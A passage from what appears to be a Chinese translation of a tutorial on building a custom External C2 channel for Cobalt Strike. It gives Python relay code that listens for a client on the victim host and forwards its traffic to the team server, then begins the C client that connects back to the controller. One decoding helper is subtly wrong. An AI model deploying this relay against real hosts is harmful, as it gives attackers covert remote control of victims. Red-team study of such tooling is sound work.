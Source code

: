 选项发送完毕后，Cobalt Strike就知道我们需要一个x86 SMB Beacon。此外，我们还需要正确接受数据，可以再创建一些辅助函数，负责报文的解码工作，这样就不用每次都去手动解码：

```
def decodeFrame(data):
    len = struct.unpack("&lt;I", data[0:3])
    body = data[4:]
    return (len, body)

def recvFromTS():
    data = ""
    _len =  _socketTS.recv(4)
    l = struct.unpack("&lt;I",_len)[0]
    while len(data) &lt; l:
        data += _socketTS.recv(l - len(data))
    return data
```

这样我们就可以使用如下语句接收原始数据：

```
data = recvFromTS()
```

接下来我们需要让第三方Client使用我们选择的C2协议与我们连接。这个例子中，我们的C2通道协议使用的是相同的4字节的长度字段数据包格式。因此，我们需要创建一个socket，方便第三方Client连接过来：

```
_socketBeacon = socket.socket(socket.AF_INET, socket.SOCK_STREAM, socket.IPPROTO_IP)
    _socketBeacon.bind(("0.0.0.0", 8081))
    _socketBeacon.listen(1)
    _socketClient = _socketBeacon.accept()[0]
```

收到连接后，我们进入循环收发处理流程，接受来自受害者主机的数据，将数据转发至Cobalt Strike，然后接受Cobalt Strike返回的数据，将其转发至受害者主机：

```
while(True):
        print "Sending %d bytes to beacon" % len(data)
        sendToBeacon(data)

        data = recvFromBeacon()
        print "Received %d bytes from beacon" % len(data)

        print "Sending %d bytes to TS" % len(data)
        sendToTS(data)

        data = recvFromTS()
        print "Received %d bytes from TS" % len(data)
```

请参考[此处](https://gist.github.com/xpn/bb82f2ca4c8e9866c12c54baeb64d771)获取完整的代码。

Controller已构造完毕，现在我们需要创建第三方Client。为了创建起来方便一些，我们可以使用 `win32`以及C来完成这个任务，这样就可以较方便地使用Windows的原生API。还是先来看看如何创建辅助函数，首先我们需要连接到第三方Controller，可以使用WinSock2创建与Controller的TCP连接：

```
// Creates a new C2 controller connection for relaying commands
SOCKET createC2Socket(const char *addr, WORD port) `{`
    WSADATA wsd;
    SOCKET sd;
    SOCKADDR_IN sin;
    WSAStartup(0x0202, &amp;wsd);

    memset(&amp;sin, 0, sizeof(sin));
    sin.sin_family = AF_INET;
    sin.sin_port = htons(port);
    sin.sin_addr.S_un.S_addr = inet_addr(addr);

    sd = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
    connect(sd, (SOCKADDR*)&amp;sin, sizeof(sin));
```